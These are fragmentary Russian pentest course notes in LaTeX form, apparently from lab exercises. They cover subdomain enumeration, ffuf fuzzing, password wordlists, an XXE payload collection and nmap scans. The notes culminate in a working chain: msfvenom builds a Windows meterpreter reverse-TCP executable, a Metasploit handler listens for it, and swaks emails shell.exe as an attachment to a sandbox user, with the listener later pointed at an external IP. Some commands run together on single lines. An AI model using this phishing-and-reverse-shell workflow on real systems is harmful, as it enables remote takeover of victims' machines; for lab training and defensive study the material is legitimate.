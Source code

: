 	\par В результате использования всех этих инструментов мы смогли обнаружить список ресурсов, связанных с основным доменным именем, и расширили набор данных о цели, которые будут нужны в дальнейших шагах по оценке защищенности организации.
	 
	\par yay -S subfinder    sudo pacman -S inetutils   sudo pacman -S nmap
	\par sudo subfinder -d cyber-ed.ru список поддоменов host -t txt task.cyber-ed.ru  
	\par sudo pacman -S docker  sudo pacman -S docker-compose
	\par sudo systemctl start docker
	sudo systemctl enable docker
	\par wget <URL\_ДЛЯ\_СКАЧИВАНИЯ>  unzip courses-shop.zip cd courses-shop-prod
	docker-compose up -d http://localhost:1337 sudo usermod -aG docker \$USER
	reboot docker-compose up -d

	\par ffuf -w /home/frodelian/Downloads/fuzz.txt -u /FUZZ/ -fc 403 -of csv -o results.csv сохранит в файл 
	
	\par https://github.com/empty-jack/YAWR/tree/master/brute
	\par burp suite, hydra программы 
	\par словари паролей  https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt         https://github.com/empty-jack/YAWR/blob/master/brute/passwords/realyBest.txt
	
	\par payload all the things xxe https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE\%20Injection
	\par ip addr show
	\par nmap -sn 192.168.1.0/24
	\par nmap -p 25 192.168.1.78
	\par msfvenom -p windows/meterpreter/reverse-tcp LHOST=192.168.1.78 LPORT=4444 -f exe -o shell.exe
	\par msfconsole
	use exploit/multi/handler
	set payload windows/meterpreter/reverse-tcp
	set LHOST 192.168.1.78
	set LPORT 4444
	
	run
	\par swaks --to mike@sandbox.local --from frodelian@sandbox.local --server 192.168.1.78 --attach shell.exe
	\par curl ifconfig.me Внешний IP 93.185.198.234
	\par set LHOST 93.185.198.234 set LPORT 25 exploit
	\par sudo ss -tuln | grep :25

